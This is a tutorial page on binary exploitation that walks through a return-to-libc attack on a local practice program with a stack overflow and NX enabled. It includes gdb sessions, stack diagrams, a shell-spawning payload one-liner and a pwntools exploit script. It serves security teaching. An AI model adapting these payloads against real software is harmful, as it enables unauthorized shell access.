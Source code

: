 # Bypass security techniques

Here, you will learn new techniques to exploit the programs that contain security mechanisms.

## Return to libc attack

This attack includes searching addresses of useful functions within libc.

Again, consider our old stack-overflow program and determine the offset to return address within gdb:
```bash
gef➤  r < <(python -c 'print "A"*262 + "B"*4')
Starting program: /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx < <(python -c 'print "A"*262 + "B"*4')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Now, find addresses within libc. An easy and always useful function to use in the exploit is a `system`, then, you need string `/bin/sh` as an argument to it and last function `exit`.

```bash
gef➤  b *main
Breakpoint 1 at 0x8049243
gef➤  r
Starting program: /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx

Breakpoint 1, 0x08049243 in main ()
gef➤  print system
$2 = {<text variable, no debug info>} 0xf7e02830 <system>
gef➤  print exit
$3 = {<text variable, no debug info>} 0xf7df5170 <exit>
gef➤  search-pattern /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx'(0x804a000-0x804b000), permission=r--
  0x804a008 - 0x804a00f  →   "/bin/sh"
[+] In '/home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx'(0x804b000-0x804c000), permission=r--
  0x804b008 - 0x804b00f  →   "/bin/sh"
[+] In '/lib/i386-linux-gnu/libc-2.31.so'(0xf7f35000-0xf7fa5000), permission=r--
  0xf7f4f352 - 0xf7f4f359  →   "/bin/sh"
gef➤  
```

Thus, you have the address of `system`, `exit`, and `/bin/sh` for the system as an argument. You just need to figure out how the stack works when you call a few functions in a row.

Usual stack view:
```
|        unused space       |
----------------------------- <--- some_func2()
|       func variables      |
-----------------------------
|         saved ebp         |
-----------------------------
|     saved ret address     |
-----------------------------
|       func arguments      |
----------------------------- <--- some_func() that calls some_func2()
|  previous func variables  |
-----------------------------
|      prev. saved ebp      |
-----------------------------
|  prev. saved ret address  |
-----------------------------
|    prev. func arguments   |
-----------------------------
```

The stack when you do a ret2libc attack:
```
|        unused space       |
-----------------------------
|AAAAAAAAAAAAAAAAAAAAAAAAAAA|
-----------------------------
|AAAAAAAAAAAAAAAAAAAAAAAAAAA|
-----------------------------
|AAAAAAAAAAAAAAAAAAAAAAAAAAA|
-----------------------------
|AAAAAAAAAAAAAAAAAAAAAAAAAAA|
-----------------------------
| ret address to the system | <--- this is a place where the ret address stored for the current function(some function, whatever)
-----------------------------
|  ret address to the exit  |
-----------------------------
|    address of /bin/sh     |
-----------------------------
| null as end of input str. |
-----------------------------
```

After the first jump to the system function:
```
|        empty space        |
-----------------------------
|  ret address to the exit  | <--- this is a place where the ret address stored for the current function(system)
-----------------------------
|    address of /bin/sh     | <--- is considered as the first argument to the system
-----------------------------
| null as end of input str. |
-----------------------------
```

After the second jump to the exit function:
```
-----------------------------
| null as end of input str. | <--- as an argument to exit or exit with 0 code.
-----------------------------
|       something else      |
```

So, the final exploit will be just with all three correct address:
```bash
gef➤  r < <(python -c 'print "A"*262 + "\x30\x28\xe0\xf7" + "\x70\x51\xdf\xf7" + "\x52\xf3\xf4\xf7"')
Starting program: /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx < <(python -c 'print "A"*262 + "\x30\x28\xe0\xf7" + "\x70\x51\xdf\xf7" + "\x52\xf3\xf4\xf7"')
[Detaching after vfork from child process 5366]
[Inferior 1 (process 5363) exited normally]
gef➤
```

You can see, that we executed child process. Try it outside gdb:
```bash
$ (python -c 'print "A"*262 + "\x30\x28\xe0\xf7" + "\x70\x51\xdf\xf7" + "\x52\xf3\xf4\xf7"'; cat) | ./stack-overflow-with-nx
w
 21:17:33 up 36 min,  1 user,  load average: 0.46, 0.37, 0.37
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
shogun   tty7     :0               20:41   36:03   1:15   1.39s xfce4-session

```

Attack with `pwntools`:
```python
from pwn import *


# start the vuln program
p = process('./stack-overflow-with-nx')
system_addr = p32(0xf7e02830)
exit_addr = p32(0xf7df5170)
bin_sh_addr = p32(0xf7f4f352)
payload = b'A' * 262
payload += system_addr
payload += exit_addr
payload += bin_sh_addr
p.sendline(payload)
p.interactive()
```

For security such as ASLR, this will not work, because it will also randomize the addresses of key functions and arguments for this attack.
